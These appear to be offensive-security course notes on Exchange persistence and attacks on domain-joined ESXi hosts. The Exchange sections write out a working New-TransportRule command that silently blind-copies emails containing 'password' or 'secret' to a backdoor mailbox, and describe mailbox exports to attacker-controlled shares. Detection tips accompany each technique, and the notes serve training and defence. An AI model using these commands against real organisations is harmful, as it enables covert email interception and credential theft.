    E1["New-MailboxExportRequest<br/>queues export job"]
    E2["-Mailbox<br/>target mailbox, e.g. CEO"]
    E3["-FilePath<br/>UNC path to attacker-controlled share<br/>destination for the .pst file"]

    E1 --> E2
    E1 --> E3

    classDef cmd fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef opt fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class E1 cmd
    class E2,E3 opt
```

| Part | Meaning |
|---|---|
| `New-MailboxExportRequest` | Built-in cmdlet that queues an export job dumping full mailbox contents to a `.pst` file |
| `-Mailbox` | Identifies the mailbox to export (high-value target, e.g. CEO) |
| `-FilePath` | Network share/UNC path where the `.pst` lands — the exfiltration destination |

> [!danger] What this grants
> A repeatable mechanism to dump the **complete historical contents** of any mailbox — all emails, attachments, folders — to a file the attacker controls. The copy persists even if live mailbox access (FullAccess/Send As/ApplicationImpersonation) is later revoked.

---

## Key takeaways

- `New-ManagementRoleAssignment` and `New-MailboxExportRequest` are both standard, legitimate Exchange cmdlets — same LOLBin-style abuse pattern as prior techniques.
- Global-wildcard scoping on the Import/Export role is the key abnormal element — turns a narrow admin task into org-wide export capability.
- This is the "cash out" step: converts live access into a standing, offline copy of sensitive data.
- Export destination (`-FilePath`) is attacker-chosen — any reachable UNC path, making detection dependent on monitoring export jobs and destination shares.

> [!tip] Detection angle
> Monitor `New-MailboxExportRequest` activity — especially exports targeting high-value mailboxes (execs, admins) or writing to unfamiliar/external file shares. Audit `Mailbox Import Export` role assignments against an approved account list.

---

## Acronyms

| Acronym | Stands for | Meaning |
|---|---|---|
| PST | Personal Storage Table | Outlook/Exchange mailbox export file format |

# Exchange Persistence: Transport Rule for Data Theft

> [!abstract] Goal
> Understand how an attacker plants a mail flow rule that silently forwards any email containing sensitive keywords to an attacker-controlled mailbox — in real time, on every future email, automatically.

**Backdoor mailbox (lab):** `TeleEngineer01`

---

## Where this fits

This is the fifth and final persistence technique in the Exchange module. Unlike the previous techniques (FullAccess, Send As, ApplicationImpersonation, Import/Export) which target *existing* mailbox content, this one is **forward-looking** — it intercepts sensitive emails *as they flow*, in real time.

```mermaid
flowchart LR
    PRE["Attacker has sufficient<br/>Exchange/AD rights"]
    RULE["Transport rule planted<br/>keyword-triggered forwarding"]
    TRIG["Any email with matching<br/>keyword transits the org"]
    FWD["Copy silently forwarded<br/>to attacker mailbox"]

    PRE --> RULE
    RULE --> TRIG --> FWD

    classDef pre fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef result fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class PRE pre
    class RULE step
    class TRIG step
    class FWD result

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## The command

```powershell
New-TransportRule -Name "Forwarder" `
    -SubjectOrBodyContainsWords "password","credential","secret","login" `
    -BlindCopyTo "TeleEngineer01" `
    -Priority 0 `
    -Enabled $true
```

```mermaid
flowchart TD
    C1["New-TransportRule<br/>creates a mail flow rule on the Exchange transport layer"]
    C2["-Name Forwarder<br/>arbitrary label for the rule"]
    C3["-SubjectOrBodyContainsWords<br/>keyword trigger list:<br/>password, credential, secret, login"]
    C4["-BlindCopyTo TeleEngineer01<br/>silently forwards matching emails<br/>to the backdoor mailbox"]
    C5["-Priority 0<br/>rule runs first before any other rule"]
    C6["-Enabled $true<br/>rule is immediately active"]

    C1 --> C2
    C1 --> C3
    C1 --> C4
    C1 --> C5
    C1 --> C6

    classDef cmd fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef trig fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef opt fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class C1 cmd
    class C3,C4 trig
    class C2,C5,C6 opt

    linkStyle default stroke:#888780,stroke-width:1.5px
```

| Part | Meaning |
|---|---|
| `New-TransportRule` | Built-in Exchange cmdlet creating a mail flow rule applied at the transport layer — affects all mail transiting the org |
| `-Name "Forwarder"` | Arbitrary label, no functional effect |
| `-SubjectOrBodyContainsWords` | Keyword list scanned against both subject line and full email body of every transiting message |
| `-BlindCopyTo` | Silently BCC-forwards matching emails to the attacker mailbox — sender and original recipient see nothing |
| `-Priority 0` | Highest priority — rule fires before any other transport rule |
| `-Enabled $true` | Rule is live immediately on creation |

> [!danger] What this grants
> Every future email containing the keyword list — sent by anyone in the org, to anyone — is silently copied to the attacker's mailbox in real time, indefinitely, with no indication to sender or recipient. This passively harvests credentials, secrets, and sensitive data as they naturally flow through the org.

---

## Why this is different from the other techniques

```mermaid
flowchart LR
    PREV["Prior techniques<br/>FullAccess, Send As,<br/>AppImpersonation, Import/Export"]
    THIS["Transport Rule"]

    PREV --> P1["Target existing content<br/>pull from current mailboxes"]
    THIS --> T1["Targets future content<br/>intercepts mail in real time"]
    THIS --> T2["Passive, automatic<br/>no repeated attacker action needed"]
    THIS --> T3["Keyword-driven<br/>pre-filtered for sensitive content"]

    classDef prev fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef this fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef leaf fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402

    class PREV prev
    class THIS this
    class P1,T1,T2,T3 leaf

    linkStyle default stroke:#888780,stroke-width:1.5px
```

---

## Key takeaways

- `New-TransportRule` is a standard, legitimate Exchange cmdlet — same LOLBin-style abuse pattern as all prior techniques in this module.
- The rule is **passive and self-sustaining** — once planted, no further attacker interaction is needed; sensitive emails are delivered automatically.
- `-BlindCopyTo` is the critical option: the forward is invisible to both sender and recipient.
- Heavily abused in both on-premise Exchange and Exchange Online (Microsoft 365).
- This closes the module — the full attack chain covers: FullAccess → Send As → ApplicationImpersonation → Mailbox Export → Transport Rule.

> [!tip] Detection angle
> Audit all transport rules for unexpected `-BlindCopyTo`, `-RedirectMessageTo`, or `-ForwardTo` destinations pointing to internal accounts outside approved lists. Alert on `New-TransportRule` calls that include sensitive-keyword word lists. Microsoft 365 Compliance Center / on-prem Exchange audit logs are the data source.

---


# ESXi ↔ Active Directory Integration

> [!abstract] Goal
> Understand what ESXi is, why it gets domain-joined, how ESXi roles map to AD accounts, and the resulting misconfiguration/attack-path surface when ESXi is integrated with AD.

---

## What is ESXi?

A **bare-metal hypervisor** installed directly on physical server hardware, able to run multiple VMs of any OS (Linux, Windows, macOS) on a single host. Enterprise ESXi hosts commonly run high-value VMs: vault servers, backup servers, VDI instances — making the host itself a high-value target.

---

## Why organizations domain-join ESXi

| Reason | What it means |
|---|---|
| **Centralized authentication** | Domain users (incl. short-lived/temp accounts) log in with AD credentials instead of separate local accounts |
| **RBAC** | Permissions (e.g. Administrator, Read-Only) assigned directly to AD users/groups |
| **Enhanced auditing** | Access attempts (success/fail) tied into AD's logging and event pipeline |

```mermaid
flowchart LR
    AD["Active Directory"] -- domain join --> ESXi["ESXi Host"]
    ESXi --> VM1["Guest VM<br/>(e.g. Vault VM)"]
    ESXi --> VM2["Guest VM"]
    ESXi --> VM3["Guest VM"]

    classDef ad fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef host fill:#FAC775,stroke:#854F0B,stroke-width:1.5px,color:#412402
    classDef vm fill:#444441,stroke:#2C2C2A,stroke-width:1.5px,color:#FFFFFF

    class AD ad
    class ESXi host
    class VM1,VM2,VM3 vm
```

---

## ESXi Roles

| Role | Scope |
|---|---|
| **Administrator** | Full access rights |
| **Anonymous** | Unauthenticated users — no access |
| **No Access** | Explicitly denied |
| **Read-Only** | Can view inventory/config/state; cannot change or interact |
| **No Cryptography Administrator** | Sample role: same as Administrator *except* cryptographic operations (VM encrypt/decrypt, key management) are stripped out — used for separation of duties around VM encryption |
| **"View"** | Not a standard ESXi/vSphere role name — likely Read-Only, a custom role, or a different product (VMware Horizon View); confirm against the screen it appeared on |

> [!note] Role scope
> Standard **standalone ESXi host** role set is just: *No Access, Read-Only, Administrator* (+ custom roles). The richer set (crypto admin, tagging admin, etc.) typically appears at the **vCenter** level, not on a bare host.

> [!danger] Default behavior
> Once an ESXi host is domain-joined, **Domain Admins are automatically granted the Administrator role** — no local `root` credential required.

```mermaid
flowchart LR
    DA["Domain Admin account"] -- default AD-join behavior --> AdminRole["Administrator role on ESXi"]
    AdminRole --> FullAccess["Full host access<br/>(no root needed)"]

    classDef a fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313
    classDef b fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    class DA a
    class AdminRole,FullAccess b
```

---

## Misconfigurations & Attack Paths (AD-integrated ESXi)

| Misconfiguration | Attack path |
|---|---|
| Shared high-priv AD account reused on hosts | 1. Compromise AD account → 2. Log into ESXi (SSH/Web) → 3. Manage host, access VMs, plant persistence |
| ESXi joined to AD, granting Domain Admin root-equivalent login | 1. Compromise Domain Admin → 2. Direct host access |
| VMware Tools → guest execution | 1. ESXi root/admin creds + guest VM creds + VMware Tools installed → 2. Execute commands inside guest VMs |
| Snapshots/backups containing credentials | 1. Retrieve snapshot → 2. Extract guest filesystem → 3. Harvest credentials |

```mermaid
flowchart TD
    M1["Shared high-priv<br/>AD account on host"] --> A1["Compromise account"] --> A2["SSH/Web login"] --> A3["Manage host, access VMs,<br/>plant persistence"]

    M2["ESXi joined to AD:<br/>Domain Admin = root-equiv"] --> B1["Compromise Domain Admin"] --> B2["Direct host access"]

    M3["VMware Tools<br/>guest execution"] --> C1["Host creds + guest creds<br/>+ VMware Tools present"] --> C2["Execute commands<br/>inside guest VM"]

    M4["Snapshots/backups<br/>with embedded creds"] --> D1["Retrieve snapshot"] --> D2["Extract guest filesystem"] --> D3["Harvest credentials"]

    classDef mis fill:#444441,stroke:#2C2C2A,stroke-width:2px,color:#FFFFFF
    classDef step fill:#CECBF6,stroke:#534AB7,stroke-width:1.5px,color:#26215C
    classDef result fill:#F7C1C1,stroke:#A32D2D,stroke-width:1.5px,color:#501313

    class M1,M2,M3,M4 mis
    class A1,A2,B1,C1,D1,D2 step
    class A3,B2,C2,D3 result
```

---

## Demo: Domain Admin SSH to ESXi

Confirmation of the "Domain Admin → root-equivalent" behavior in practice:

- SSH login to the ESXi host using Domain Admin credentials (not local `root`).
- Resulting shell prompt reflects the domain account context (e.g. `teleco\administrator@esxi-host`).
- Despite being a domain account, the session carries **root-level privileges** — because Administrator role is mapped to Domain Admin by default on a domain-joined host.
- Practical takeaway: an attacker holding Domain Admin credentials does **not** need to separately obtain/crack the ESXi root password to get full host control via SSH.

---

## Defensive Takeaways

- [ ] Audit which AD accounts/groups hold Administrator rights on domain-joined ESXi hosts — don't assume Domain Admin = intended ESXi admin.
- [ ] Monitor SSH/Web-portal logins to ESXi hosts tied to AD logon events.
- [ ] Restrict/monitor VMware Tools cross-host-guest interaction where not operationally needed.
- [ ] Treat snapshots/backups as credential-bearing artifacts — apply the same access controls as the live systems.